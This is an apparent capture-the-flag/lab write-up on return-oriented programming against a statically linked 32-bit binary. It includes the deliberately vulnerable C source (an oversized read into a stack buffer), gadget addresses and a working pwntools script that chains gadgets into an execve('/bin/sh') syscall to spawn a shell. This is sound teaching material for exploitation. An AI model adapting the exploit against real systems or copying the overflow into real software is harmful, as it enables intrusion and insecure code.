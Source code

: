 # ROP Static

## Source Code

```C
// gcc -m32 -fno-stack-protector -no-pie -static -o vuln vuln.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

char *str = "/bin/sh";          // <- RODATA

#define BUFFSIZE 136

void vuln()
{
    char buffer[BUFFSIZE];
    read(0, buffer, 0x200);     // <- this code causes buffer overflow
}

int main()
{
    vuln();
}
```

## Overview & Idea

- Let's check some informations about binary file

![img](/bi0s/ROP_Static/assets/check_file.png)

> NX is enabled so we can't ret2shellcode, but this program has statically linked and no PIE, we can use ROPgadget to find some gadgets in binary file and use it to implement something like exceve("/bin/sh", 0, 0) to get shell :3

## Details

### A bit about ROP

- Return Oriented Programming is a technique in which we use existing small snippets of assembly code/gadgets to create a chain of instructions which will eventually spawn a shell or cause the program to do some complex things. This is method is usually employed when there is a Stack buffer overflow and there are no win or give_shell functions. So we use ROP to invoke system or an execve syscall.

- Its called ROP as the basic idea of the technique is to use the ret statement to change control flow of the program. We use a tool called ROPgadget for finding gadgets. Another tool used for the same is ropper

- You can see this example to understand how does ROP work

![img](/bi0s/ROP_Static/assets/ROP.png)

- To implement exceve("/bin/sh", 0, 0), we look up exceve's system call number in the syscall table of x86_32 bit 

![img](/bi0s//ROP_Static/assets/exceve_syscall.png)

```
exceve("/bin/sh", 0, 0) in assembly

eax     -     0x0b
ebx     -     char* "/bin/sh"
ecx     -     0x0
edx     -     0x0

int     0x80
```

- First, we'll find the offset that we need to overwrite. By some simple steps, I found it's 148 bytes :3.

- Next, I found some gadgets below with ROPgadget.

![img](/bi0s//ROP_Static/assets/gadget.png)

- Finally, we need to find "/bin/sh" string, "/bin/sh" stored in RODATA because of its initialization `char *str = "/bin/sh"`

![img](/bi0s/ROP_Static/assets/bin_sh.png)

## Exploit

```python
# 0x0806003e : pop edx ; pop ebx ; pop esi ; ret
# 0x080a8b2a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
# 0x0805d393 : pop ecx ; ret
# 0x80b3008    "/bin/sh"
# 0x0804b5c2   int 0x80
# offset 148

from pwn import *

elf = ELF("./vuln")
p = elf.process()

payload = b"a"*148
payload += p32(0x0806003e)
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x2)
payload += p32(0x080a8b2a)
payload += p32(0x0b)
payload += p32(0x80b3008)
payload += p32(0x0)
payload += p32(0x0)
payload += p32(0x0805d393)
payload += p32(0x0)
payload += p32(0x0804b5c2)

p.sendline(payload)
p.interactive()
```

## Result

![img](/bi0s/ROP_Static/assets/result.png)

## Reference

[syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

[ROPstatic](https://wiki.bi0s.in/pwning/rop/static/)